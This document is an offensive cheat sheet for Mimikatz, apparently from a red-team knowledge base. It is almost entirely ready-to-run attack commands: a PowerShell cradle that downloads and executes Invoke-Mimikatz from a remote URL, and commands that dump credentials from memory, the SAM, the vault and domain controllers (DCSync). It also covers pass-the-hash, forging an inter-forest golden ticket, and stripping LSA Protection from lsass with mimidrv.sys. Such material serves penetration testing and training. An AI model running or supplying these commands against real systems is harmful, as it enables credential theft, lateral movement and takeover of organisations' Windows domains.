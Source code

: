 





**GitHub:** [https://github.com/samratashok/nishang/raw/master/Gather/Invoke-Mimikatz.ps1](https://github.com/samratashok/nishang/raw/master/Gather/Invoke-Mimikatz.ps1)

## Dump Credentials

```bash
# Download and execute in cradle
IEX (New-Object System.Net.Webclient).DownloadString('https://github.com/samratashok/nishang/raw/master/Gather/Invoke-Mimikatz.ps1')
 
 #Dump creds from memory
Invoke-Mimikatz -DumpCreds

# DCSync Attack
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:security.local /user:moe"'

# Dump local passwords
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

# Dump Credential Vault
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'

# Dump credentials on remote systems
Invoke-Mimikatz -DumpCreds -ComputerName @("WS01","WS02")
```

## Dump Domain Credentials

```bash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

## Spawn PowerShell (with Compromised NTLM hash)

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:DomainAdmin /domain:Security.local /ntlm:b38ff50264b7458734d82c69794a4d8 /run:powershell.exe"'
```

## Forge Inter-domain Trust Ticket

```powershell
# Obtain trust key between current domain and external domain
Invoke-Mimikatz -Command '"lsadump::trust /patch"'

# An inter-forest TGT can be forged
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:Security.local /sid:S-1-5-21-1874506000-3219952063-538504511 /rc4:815720462a1b48256f16740b70356b7f /service:krbtgt /target:Vault.local /ticket:C:\AD\trust_forest_tkt.kirbi"'
```

## Over Pass the Hash

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:Security.local /ntlm:<ntlmhash> /run:powershell.exe"'
```

## Protection Bypass

The below image represents an attempt to access the lsass.exe process and extract clear text passwords and run a skeleton key attack. As we can see this has not been successful since applying the registry key change mentioned in the mitigation section for LSA Protection.

![](<../../.gitbook/assets/image (1988).png>)

We can check if the LSA Protection RunAsPPL key exists by querying the registry to confirm the LSA protection is in place.

```bash
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "RunAsPPL"
# Value 0x1 means LSA Protection is enabled
```

This can be bypassed by utilizing the `mimidrv.sys` driver file which is included as a separate file with mimikatz.

{% hint style="info" %}

The mimidrv.sys driver file needs to exists in the same directory as mimikatz.exe.

{% endhint %}

The driver can be loaded by running the command `!+` in `Mimikatz`. After doing so the following command can be execute to protect the `mimikatz.exe` process.

```bash
!processProtect /process:mimikatz.exe
```

The same command with the `/remove` flag can be used to strip the process protection from a process such as `lsass.exe`

```bash
!processprotect /process:lsass.exe /remove
```

From here we should be free to perform actions against LSASS and dump credentials from it.

```bash
mimikatz.exe sekurlsa::logonpasswords
```


# Resources

https://www.wwt.com/api-new/attachments/66a7b8da13599902a3aa53a9/file